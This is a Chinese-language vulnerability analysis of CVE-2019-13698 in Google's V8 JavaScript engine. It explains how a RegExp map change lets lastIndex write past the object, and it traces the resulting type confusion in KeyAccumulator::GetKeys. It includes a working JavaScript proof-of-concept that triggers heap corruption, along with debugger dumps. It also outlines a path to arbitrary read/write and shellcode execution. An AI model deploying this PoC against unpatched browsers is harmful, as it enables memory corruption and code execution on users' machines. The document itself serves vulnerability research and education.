




# CVE-2019-13698

## 调试环境

```cpp
git checkout 7.4.301
tools/dev/v8gen.py  x64.debug
ninja -C out.gn/x64.debug d8 
```

patch了一些check，以便调试：

```cpp
diff --git a/src/objects.h b/src/objects.h
index d7cb4f39d0..eedcd0f7ff 100644
--- a/src/objects.h
+++ b/src/objects.h
@@ -1010,7 +1010,7 @@ V8_EXPORT_PRIVATE std::ostream& operator<<(std::ostream& os, const Object& obj);
 // In objects.h to be usable without objects-inl.h inclusion.
 bool Object::IsSmi() const { return HAS_SMI_TAG(ptr()); }
 bool Object::IsHeapObject() const {
-  DCHECK_EQ(!IsSmi(), Internals::HasHeapObjectTag(ptr()));
+  // DCHECK_EQ(!IsSmi(), Internals::HasHeapObjectTag(ptr()));
   return !IsSmi();
 }
 
diff --git a/src/objects/fixed-array-inl.h b/src/objects/fixed-array-inl.h
index dfb34102dd..c32e18ece5 100644
--- a/src/objects/fixed-array-inl.h
+++ b/src/objects/fixed-array-inl.h
@@ -93,7 +93,7 @@ bool FixedArray::ContainsOnlySmisOrHoles() {
 }
 
 Object FixedArray::get(int index) const {
-  DCHECK(index >= 0 && index < this->length());
+  // DCHECK(index >= 0 && index < this->length());
   return RELAXED_READ_FIELD(*this, kHeaderSize + index * kTaggedSize);
 }
 
@@ -128,10 +128,10 @@ void FixedArray::set(int index, Smi value) {
 }
 
 void FixedArray::set(int index, Object value) {
-  DCHECK_NE(GetReadOnlyRoots().fixed_cow_array_map(), map());
-  DCHECK(IsFixedArray());
-  DCHECK_GE(index, 0);
-  DCHECK_LT(index, this->length());
+  // DCHECK_NE(GetReadOnlyRoots().fixed_cow_array_map(), map());
+  // DCHECK(IsFixedArray());
+  // DCHECK_GE(index, 0);
+  // DCHECK_LT(index, this->length());
   int offset = kHeaderSize + index * kTaggedSize;
   RELAXED_WRITE_FIELD(*this, offset, value);
   WRITE_BARRIER(*this, offset, value);
diff --git a/src/objects/smi.h b/src/objects/smi.h
index 301d5093c0..67753da7d5 100644
--- a/src/objects/smi.h
+++ b/src/objects/smi.h
@@ -27,7 +27,7 @@ class Smi : public Object {
   constexpr Smi() : Object() {}
   explicit constexpr Smi(Address ptr) : Object(ptr) {
 #if V8_CAN_HAVE_DCHECK_IN_CONSTEXPR
-    DCHECK(HAS_SMI_TAG(ptr));
+    // DCHECK(HAS_SMI_TAG(ptr));
 #endif
   }
   Smi* operator->() { return this; }
```

args.gn：

```cpp
is_debug = true
target_cpu = "x64"
v8_enable_backtrace = true
v8_enable_slow_dchecks = false
v8_optimized_debug = false
```

## 漏洞成因

```cpp
// src/runtime/runtime-regexp.cc
// Legacy implementation of RegExp.prototype[Symbol.replace] which
// doesn't properly call the underlying exec method.
V8_WARN_UNUSED_RESULT MaybeHandle<String> RegExpReplace(
    Isolate* isolate, Handle<JSRegExp> regexp, Handle<String> string,
    Handle<Object> replace_obj) {
  // Functional fast-paths are dispatched directly by replace builtin.
  DCHECK(RegExpUtils::IsUnmodifiedRegExp(isolate, regexp));						// [1]
  DCHECK(!replace_obj->IsCallable());

  Factory* factory = isolate->factory();

  const int flags = regexp->GetFlags();
  const bool global = (flags & JSRegExp::kGlobal) != 0;
  const bool sticky = (flags & JSRegExp::kSticky) != 0;

  Handle<String> replace;
  ASSIGN_RETURN_ON_EXCEPTION(isolate, replace,
                             Object::ToString(isolate, replace_obj), String);			// [2]
  replace = String::Flatten(isolate, replace);

  Handle<RegExpMatchInfo> last_match_info = isolate->regexp_last_match_info();

  if (!global) {
    // Non-global regexp search, string replace.

    uint32_t last_index = 0;
    if (sticky) {
      Handle<Object> last_index_obj(regexp->last_index(), isolate);
      ASSIGN_RETURN_ON_EXCEPTION(isolate, last_index_obj,
                                 Object::ToLength(isolate, last_index_obj),
                                 String);
      last_index = PositiveNumberToUint32(*last_index_obj);
    }

    Handle<Object> match_indices_obj(ReadOnlyRoots(isolate).null_value(),
                                     isolate);

    // A lastIndex exceeding the string length always always returns null
    // (signalling failure) in RegExpBuiltinExec, thus we can skip the call.
    if (last_index <= static_cast<uint32_t>(string->length())) {
      ASSIGN_RETURN_ON_EXCEPTION(isolate, match_indices_obj,
                                 RegExpImpl::Exec(isolate, regexp, string,
                                                  last_index, last_match_info),
                                 String);
    }

    if (match_indices_obj->IsNull(isolate)) {
      if (sticky) regexp->set_last_index(Smi::kZero, SKIP_WRITE_BARRIER);
      return string;
    }

    auto match_indices = Handle<RegExpMatchInfo>::cast(match_indices_obj);

    const int start_index = match_indices->Capture(0);
    const int end_index = match_indices->Capture(1);

    if (sticky)
      regexp->set_last_index(Smi::FromInt(end_index), SKIP_WRITE_BARRIER);				// [3]
    // ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
```

漏洞函数在[1]检查该RegExp对象是不被修改的，但是又在[2]处调用了Object::ToString，该调用可以直接修改掉RegExp对象（即可以改变RegExp对象的内存布局），后续在第[3]处调用set_last_index的时候会导致溢出（因为还是按照原来的偏移来进行赋值，但是RegExp的内存布局已经被我们改变了），覆盖下一个对象的Map，以下是变化前后的RegExp对象的DebugPrint（注意其instance size）：

改变前：
```cpp
DebugPrint: 0x428ae80f169: [JSRegExp]
 - map: 0x31a99df01359 <Map(HOLEY_ELEMENTS)> [FastProperties] 	<--------
 - prototype: 0x23bcdac08b81 <Object map = 0x31a99df08159>
 - elements: 0x2e3e4ac00c21 <FixedArray[0]> [HOLEY_ELEMENTS]
 - data: 0x0428ae8109f1 <FixedArray[8]>
 - source: 0x23bcdac1efd9 <String[#1]: x>
 - properties: 0x2e3e4ac00c21 <FixedArray[0]> {
    #lastIndex: 0 (data field 0)
 }
0x31a99df01359: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 56    <------
 - inobject properties: 1
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x2e3e4ac004d1 <undefined>
 - prototype_validity cell: 0x0a332ad80609 <Cell value= 1>
 - instance descriptors (own) #1: 0x23bcdac09221 <DescriptorArray[1]>
 - layout descriptor: (nil)
 - prototype: 0x23bcdac08b81 <Object map = 0x31a99df08159>
 - constructor: 0x23bcdac07e59 <JSFunction RegExp (sfi = 0xa332ad8e111)>
 - dependent code: 0x2e3e4ac002c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```
改变后：
```cpp
DebugPrint: 0x428ae810b01: [JSRegExp]
 - map: 0x31a99df0a909 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]		<--------
 - prototype: 0x23bcdac08b81 <Object map = 0x31a99df08159>
 - elements: 0x2e3e4ac00c21 <FixedArray[0]> [HOLEY_ELEMENTS]
 - data: 0x0428ae8109f1 <FixedArray[8]>
 - source: 0x23bcdac1efd9 <String[#1]: x>
 - properties: 0x0428ae810bf1 <NameDictionary[29]> {
   #lastIndex: 0 (data, dict_index: 1, attrs: [W__])
   #x: 0x23bcdac1f519 <AccessorPair> (accessor, dict_index: 2, attrs: [WEC])
 }
0x31a99df0a909: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 48	<-------
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - dictionary_map
 - may_have_interesting_symbols
 - back pointer: 0x2e3e4ac004d1 <undefined>
 - prototype_validity cell: 0x0a332ad80609 <Cell value= 1>
 - instance descriptors (own) #0: 0x2e3e4ac00259 <DescriptorArray[0]>
 - layout descriptor: (nil)
 - prototype: 0x23bcdac08b81 <Object map = 0x31a99df08159>
 - constructor: 0x23bcdac07e59 <JSFunction RegExp (sfi = 0xa332ad8e111)>
 - dependent code: 0x2e3e4ac002c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

使其Map变换，从[FastProperties]变成[DictionaryProperties]，instance size变小了8个字节，而原先偏移48的地址存放的就是lastIndex的值，等于我们可以越界写一个lastIndex的值，但是其地址是紧邻着RegExp对象的

## 漏洞利用

根据issue中提到思路：

```
To exploit this, we overwrite the map of the keys object in KeyAccumulator::GetKeys.
This causes a heap overflow, which we use to corrupt arrays on the heap.
This gives heap r/w, which we use to corrupt a TypedArray for arb r/w.
Then, we overwrite JIT code with shellcode.
```

### poc

和作者给的exp，这里把exp改一改得出一份poc：

```javascript
function go(){
	function gc(){ 
		for (let i=0;i<0x10;i++) 
			new ArrayBuffer(0x800000); 
	}

	function to_dict(obj){
		obj.__defineGetter__('x',()=>2);
		obj.__defineGetter__('x',()=>2);
	}

	rgx = null;
    dbl_arr = [1.1, 2.2, 3.3, 4.4];
    
    %DebugPrint(dbl_arr);
	o = {};
	o.__defineGetter__("length", ()=>{
        rgx = new RegExp(/AAAAAAAA/y);
        %DebugPrint(rgx);
		return 2;
	});
	o[0] = "aaaa";
	o.__defineGetter__(1, ()=>{
		for(let i=0;i<8;i++) 
			dbl_arr.push(5.5);
	
		let cnt = 0;
		rgx[Symbol.replace]("AAAAAAAA", {
			toString: ()=>{
				cnt++;
				if(cnt == 2){
					rgx.lastIndex = {
						valueOf: ()=>{
							to_dict(rgx);
                            gc();
                            %DebugPrint(dbl_arr);
                            %DebugPrint(rgx);
							return 0;
						}
					};
				}
				return 'BBBB$';
			}
		});
		return "bbbb";
	});
	p = new Proxy({}, {
		ownKeys: function(target){
			return o;
		},
		getOwnPropertyDescriptor(target, prop) {
			return { configurable: true, enumerable: true, value: 5 };
		}
	});

	Object.keys(p);
}
go();
```

入口点就是Object.keys(p)，对应v8源码中的Builtins_ObjectKeys([src/builtins/builtins-object-gen.cc](https://github.com/v8/v8/blob/7.4.301/src/builtins/builtins-object-gen.cc#L571))

### KeyAccumulator::CollectOwnJSProxyKeys

在一系列调用后，会来到`Maybe<bool> KeyAccumulator::CollectOwnJSProxyKeys(Handle<JSReceiver> receiver,Handle<JSProxy> proxy)`：

```cpp
// https://github.com/v8/v8/blob/7.4.301/src/keys.cc#L835
// ES6 #sec-proxy-object-internal-methods-and-internal-slots-ownpropertykeys
// Returns |true| on success, |nothing| in case of exception.
Maybe<bool> KeyAccumulator::CollectOwnJSProxyKeys(Handle<JSReceiver> receiver,
                                                  Handle<JSProxy> proxy) {
  // ...................................................................
  // 4. Let target be the value of the [[ProxyTarget]] internal slot of O.
  Handle<JSReceiver> target(JSReceiver::cast(proxy->target()), isolate_);
  // 5. Let trap be ? GetMethod(handler, "ownKeys").
  Handle<Object> trap;
  ASSIGN_RETURN_ON_EXCEPTION_VALUE(
      isolate_, trap, Object::GetMethod(Handle<JSReceiver>::cast(handler),			[4]
                                        isolate_->factory()->ownKeys_string()),
      Nothing<bool>());
  // 6. If trap is undefined, then
  if (trap->IsUndefined(isolate_)) {
    // 6a. Return target.[[OwnPropertyKeys]]().
    return CollectOwnJSProxyTargetKeys(proxy, target);
  }
  // 7. Let trapResultArray be Call(trap, handler, «target»).
  Handle<Object> trap_result_array;
  Handle<Object> args[] = {target};
  ASSIGN_RETURN_ON_EXCEPTION_VALUE(
      isolate_, trap_result_array,
      Execution::Call(isolate_, trap, handler, arraysize(args), args),					
      Nothing<bool>());
  // 8. Let trapResult be ? CreateListFromArrayLike(trapResultArray,
  //    «String, Symbol»).
  Handle<FixedArray> trap_result;
  ASSIGN_RETURN_ON_EXCEPTION_VALUE(
      isolate_, trap_result,
      Object::CreateListFromArrayLike(isolate_, trap_result_array,						[5]
                                      ElementTypes::kStringAndSymbol),
      Nothing<bool>());
  // ,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
}
```

该函数在[4]处获取到Proxy对象的ownkeys方法，接着在[5]处进行调用：

```cpp
// static
MaybeHandle<FixedArray> Object::CreateListFromArrayLike(
    Isolate* isolate, Handle<Object> object, ElementTypes element_types) {
  // Fast-path for JSArray and JSTypedArray.
  MaybeHandle<FixedArray> fast_result =
      CreateListFromArrayLikeFastPath(isolate, object, element_types);
  if (!fast_result.is_null()) return fast_result;
  // 1. ReturnIfAbrupt(object).
  // 2. (default elementTypes -- not applicable.)
  // 3. If Type(obj) is not Object, throw a TypeError exception.
  if (!object->IsJSReceiver()) {
    THROW_NEW_ERROR(isolate,
                    NewTypeError(MessageTemplate::kCalledOnNonObject,
                                 isolate->factory()->NewStringFromAsciiChecked(
                                     "CreateListFromArrayLike")),
                    FixedArray);
  }

  // 4. Let len be ? ToLength(? Get(obj, "length")).
  Handle<JSReceiver> receiver = Handle<JSReceiver>::cast(object);
  Handle<Object> raw_length_number;
  ASSIGN_RETURN_ON_EXCEPTION(isolate, raw_length_number,
                             Object::GetLengthFromArrayLike(isolate, receiver),
                             FixedArray);
  uint32_t len;
  if (!raw_length_number->ToUint32(&len) ||
      len > static_cast<uint32_t>(FixedArray::kMaxLength)) {
    THROW_NEW_ERROR(isolate,
                    NewRangeError(MessageTemplate::kInvalidArrayLength),
                    FixedArray);
  }
  // 5. Let list be an empty List.
  Handle<FixedArray> list = isolate->factory()->NewFixedArray(len);			// 这个就是map被我们覆盖的结构
  // 6. Let index be 0.
  // 7. Repeat while index < len:
  for (uint32_t index = 0; index < len; ++index) {
    // 7a. Let indexName be ToString(index).
    // 7b. Let next be ? Get(obj, indexName).
    Handle<Object> next;
    ASSIGN_RETURN_ON_EXCEPTION(isolate, next,
                               JSReceiver::GetElement(isolate, receiver, index),		// 依次访问o[0]，o[1]等等
                               FixedArray);
    switch (element_types) {
      case ElementTypes::kAll:
        // Nothing to do.
        break;
      case ElementTypes::kStringAndSymbol: {
        // 7c. If Type(next) is not an element of elementTypes, throw a
        //     TypeError exception.
        if (!next->IsName()) {
          THROW_NEW_ERROR(isolate,
                          NewTypeError(MessageTemplate::kNotPropertyName, next),
                          FixedArray);
        }
        // 7d. Append next as the last element of list.
        // Internalize on the fly so we can use pointer identity later.
        next = isolate->factory()->InternalizeName(Handle<Name>::cast(next));
        break;
      }
    }
    list->set(index, *next);
    // 7e. Set index to index + 1. (See loop header.)
  }
  // 8. Return list.
  return list;
}
```

该调用会触发对o对象length属性的访问，接着会访问到o[0]，o[1]，结合poc中的代码，我们在对o对象的length进行访问的时候创建了RegExp对象rgx：

```javascript
o.__defineGetter__("length", ()=>{
        rgx = new RegExp(/AAAAAAAA/y);
        %DebugPrint(rgx);
		return 2;
});
```

接着在对o[1]进行访问的时候：

```javascript
o.__defineGetter__(1, ()=>{
		for(let i=0;i<8;i++) 
			dbl_arr.push(5.5);
	
		let cnt = 0;
		rgx[Symbol.replace]("AAAAAAAA", {
			toString: ()=>{
				cnt++;
				if(cnt == 2){
					rgx.lastIndex = {
						valueOf: ()=>{
							to_dict(rgx);
                            gc();
                            %DebugPrint(dbl_arr);
                            %DebugPrint(rgx);
							return 0;
						}
					};
				}
				return 'BBBB$';
			}
		});
		return "bbbb";
});
```

调用了RegExp对象的replace方法，也就是漏洞代码处，这里会调用RegExp[Symble.replace]函数第二个参数对象的toString函数两次，第二次发生在漏洞函数的[6]处：

```cpp
// src/runtime/runtime-regexp.cc
// Legacy implementation of RegExp.prototype[Symbol.replace] which
// doesn't properly call the underlying exec method.
V8_WARN_UNUSED_RESULT MaybeHandle<String> RegExpReplace(
    Isolate* isolate, Handle<JSRegExp> regexp, Handle<String> string,
    Handle<Object> replace_obj) {
  // Functional fast-paths are dispatched directly by replace builtin.
  DCHECK(RegExpUtils::IsUnmodifiedRegExp(isolate, regexp));						
  DCHECK(!replace_obj->IsCallable());

  Factory* factory = isolate->factory();

  const int flags = regexp->GetFlags();
  const bool global = (flags & JSRegExp::kGlobal) != 0;
  const bool sticky = (flags & JSRegExp::kSticky) != 0;

  Handle<String> replace;
  ASSIGN_RETURN_ON_EXCEPTION(isolate, replace,
                             Object::ToString(isolate, replace_obj), String);			// [6]
  replace = String::Flatten(isolate, replace);

  Handle<RegExpMatchInfo> last_match_info = isolate->regexp_last_match_info();

  if (!global) {
    // Non-global regexp search, string replace.

    uint32_t last_index = 0;
    if (sticky) {
      Handle<Object> last_index_obj(regexp->last_index(), isolate);
      ASSIGN_RETURN_ON_EXCEPTION(isolate, last_index_obj,								// [7]
                                 Object::ToLength(isolate, last_index_obj),
                                 String);
      last_index = PositiveNumberToUint32(*last_index_obj);
    }
```

在第二次调用toString的时候，js代码中直接覆写了rgx对象的lastIndex方法，在漏洞函数后续调用lastIndex方法[7]处的时候改变其Map类型，在通过一次gc的操作使得KeyAccumulator::GetKeys函数中使用的key_对象（后面会分析）内存紧邻着rgx对象，在js代码中加入一个断点并打印gc后的内存布局：

```javascript
rgx[Symbol.replace]("AAAAAAAA", {
			toString: ()=>{
				cnt++;
				if(cnt == 2){
					rgx.lastIndex = {
						valueOf: ()=>{
							to_dict(rgx);
                            gc();
							%DebugPrint(rgx);
							%SystemBreak();
							return 0;
						}
					};
				}
				return 'BBBB$';
			}
		});
```

gc后的内存布局：

```cpp
pwndbg> c
Continuing.
DebugPrint: 0x8d34a3874d9: [JSRegExp]
 - map: 0x23b63bc8ad19 <Map(HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x0c0978888c11 <Object map = 0x23b63bc88299>
 - elements: 0x13f43e580c21 <FixedArray[0]> [HOLEY_ELEMENTS]
 - data: 0x08d34a387489 <FixedArray[8]>
 - source: 0x0c097889f849 <String[#8]: AAAAAAAA>
 - properties: 0x08d34a387869 <NameDictionary[29]> {
   #x: 0x0c09788a1589 <AccessorPair> (accessor, dict_index: 2, attrs: [WEC])
   #lastIndex: 0x08d34a3877a9 <Object map = 0x23b63bc8ac79> (data, dict_index: 1, attrs: [W__])
 }
0x23b63bc8ad19: [Map]
 - type: JS_REGEXP_TYPE
 - instance size: 48
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - dictionary_map
 - may_have_interesting_symbols
 - back pointer: 0x13f43e5804d1 <undefined>
 - prototype_validity cell: 0x2487b2100609 <Cell value= 1>
 - instance descriptors (own) #0: 0x13f43e580259 <DescriptorArray[0]>
 - layout descriptor: (nil)
 - prototype: 0x0c0978888c11 <Object map = 0x23b63bc88299>
 - constructor: 0x0c0978887ee9 <JSFunction RegExp (sfi = 0x2487b210de29)>
 - dependent code: 0x13f43e5802c1 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
     
pwndbg> telescope 0x8d34a3874d8				<-----------------------------JSRegExp ， 也就是rgx
00:0000│  0x8d34a3874d8 —▸ 0x23b63bc8ad19 ◂— 0x6000013f43e5801
01:0008│  0x8d34a3874e0 —▸ 0x8d34a387869 ◂— 0x13f43e5815
02:0010│  0x8d34a3874e8 —▸ 0x13f43e580c21 ◂— 0x13f43e5807
03:0018│  0x8d34a3874f0 —▸ 0x8d34a387489 ◂— 0x13f43e5807
04:0020│  0x8d34a3874f8 —▸ 0xc097889f849 ◂— 0x5a000013f43e5804
05:0028│  0x8d34a387500 ◂— 0x800000000		<-----------------------------根据Map里的instance size，rgx的内存到此为止
06:0030│  0x8d34a387508 —▸ 0x13f43e5807b1 ◂— 0x13f43e5801	<-------|
07:0038│  0x8d34a387510 ◂— 0x200000000								|
pwndbg> job 0x8d34a387509	-----------------------------------------
0x8d34a387509: [FixedArray]
 - map: 0x13f43e5807b1 <Map>
 - length: 2
           0: 0x0c097889f881 <String[#4]: aaaa>
           1: 0x13f43e5804d1 <undefined>
pwndbg> 

```

在gc后，紧邻着reg对象内存地址的是一个FixedArray对象，也就是后面KeyAccumulator::GetKeys函数中使用的key_对象，接着在调用`regexp->set_last_index(Smi::FromInt(end_index), SKIP_WRITE_BARRIER);	`来更新rgx.lastIndex的时候，由于我们改变了rgx的Map，这里就导致了溢出，调用前：



rgx对象内存布局：



调用后：



可以看到该调用直接把下一个对象的Map给改成lastIndex的值，也就是8了

`V8_WARN_UNUSED_RESULT MaybeHandle<String> RegExpReplace`结束后会回到`KeyAccumulator::CollectOwnJSProxyKeys`

后续在

```cpp
Maybe<bool> KeyAccumulator::CollectOwnJSProxyKeys(Handle<JSReceiver> receiver,
                                                  Handle<JSProxy> proxy) {
  // ............................................
  // 20. If extensibleTarget is true, return trapResult.
  if (extensible_target) {
    return AddKeysFromJSProxy(proxy, trap_result);
  }
  // ............................................
}

// Returns "nothing" in case of exception, "true" on success.
Maybe<bool> KeyAccumulator::AddKeysFromJSProxy(Handle<JSProxy> proxy,
                                               Handle<FixedArray> keys) {
  // Postpone the enumerable check for for-in to the ForInFilter step.
  if (!is_for_in_) {
    ASSIGN_RETURN_ON_EXCEPTION_VALUE(
        isolate_, keys, FilterProxyKeys(this, proxy, keys, filter_),
        Nothing<bool>());
    if (mode_ == KeyCollectionMode::kOwnOnly) {
      // If we collect only the keys from a JSProxy do not sort or deduplicate.
      keys_ = keys;												// [8]
      return Just(true);
    }
  }
  AddKeys(keys, is_for_in_ ? CONVERT_TO_ARRAY_INDEX : DO_NOT_CONVERT);
  return Just(true);
}
```

[8]处会把我们覆盖Map的对象赋值给KeyAccumulator对象keys_成员，在`KeyAccumulator::CollectOwnJSProxyKeys`返回到：

```cpp
MaybeHandle<FixedArray> FastKeyAccumulator::GetKeysSlow(
    GetKeysConversion keys_conversion) {
  KeyAccumulator accumulator(isolate_, mode_, filter_);
  accumulator.set_is_for_in(is_for_in_);
  accumulator.set_skip_indices(skip_indices_);
  accumulator.set_last_non_empty_prototype(last_non_empty_prototype_);

  MAYBE_RETURN(accumulator.CollectKeys(receiver_, receiver_),
               MaybeHandle<FixedArray>());
  return accumulator.GetKeys(keys_conversion);							// [9]
}	
```

[9]处，跟进：

```cpp
Handle<FixedArray> KeyAccumulator::GetKeys(GetKeysConversion convert) {
  if (keys_.is_null()) {
    return isolate_->factory()->empty_fixed_array();
  }
  if (mode_ == KeyCollectionMode::kOwnOnly &&
      keys_->map() == ReadOnlyRoots(isolate_).fixed_array_map()) {				// [10]
    return Handle<FixedArray>::cast(keys_);
  }
  USE(ContainsOnlyValidKeys);
  Handle<FixedArray> result =
      OrderedHashSet::ConvertToKeysArray(isolate(), keys(), convert);			// [11]
  DCHECK(ContainsOnlyValidKeys(result));
  return result;
}
```

### OrderedHashSet::ConvertToKeysArray

由于keys_的Map被我们改变，导致[10]处的判断为false，从而进入[11]处的`OrderedHashSet::ConvertToKeysArray`函数：

```cpp
Handle<FixedArray> OrderedHashSet::ConvertToKeysArray(
    Isolate* isolate, Handle<OrderedHashSet> table, GetKeysConversion convert) {	// key_被当作OrderedHashSet来处理
  int length = table->NumberOfElements();							// 因为类型混淆的原故，导致key_中的元素（ptr）被当作是smi
  int nof_buckets = table->NumberOfBuckets();
  // Convert the dictionary to a linear list.
  Handle<FixedArray> result = Handle<FixedArray>::cast(table);
  // From this point on table is no longer a valid OrderedHashSet.
  result->set_map(ReadOnlyRoots(isolate).fixed_array_map());		// map变回FIXED_ARRAY_TYPE
  int const kMaxStringTableEntries =
      isolate->heap()->MaxNumberToStringCacheSize();
  for (int i = 0; i < length; i++) {
    int index = HashTableStartIndex() + nof_buckets + (i * kEntrySize);
    Object key = table->get(index);
    if (convert == GetKeysConversion::kConvertToString) {
      uint32_t index_value;
      if (key->ToArrayIndex(&index_value)) {
        // Avoid trashing the Number2String cache if indices get very large.
        bool use_cache = i < kMaxStringTableEntries;
        key = *isolate->factory()->Uint32ToString(index_value, use_cache);
      } else {
        CHECK(key->IsName());
      }
    }
    result->set(i, key);											// 堆溢出
  }
  return FixedArray::ShrinkOrEmpty(isolate, result, length);
}
```

从`OrderedHashSet::ConvertToKeysArray`函数的参数类型可以看到，我们的keys_被当作OrderedHashSet对象来处理，从而导致了类型混淆，而后调用`table->NumberOfElements()` 和 `table->NumberOfBuckets()`取得的值会变得很大，从而在后续的get和set操作中导致堆溢出

这里的堆溢出会把keys_后续的内存都赋值成执行字符串“0”的指针，当作smi取值的话就是一个很大的数

依靠此堆溢出我们就可以覆盖掉double_array的elements属性（poc中的dbl_arr)的length，从而就可以得到一个越界的double_array，在利用该越界的double_array修改一个TypedArray，我们就可以得到任意地址读写的效果了

## 后记

在chromium测试该漏洞的时候一直没有成功，原因好像是不知道为什么在chromium中，RegExp对象的data属性的数组一直分配在紧邻着RegExp对象地址下方，而不像在d8中那样是在RegExp地址的上方（低地址）：



可以看到紧邻着RegExp对象的是它自己的data数组，之后才是keys_，而我们覆盖的是data数组的Map，故一直没有利用成功；

但是，在chrome中测试就可以了，:P

有点神奇

## 参考链接

https://bugs.chromium.org/p/chromium/issues/detail?id=944971
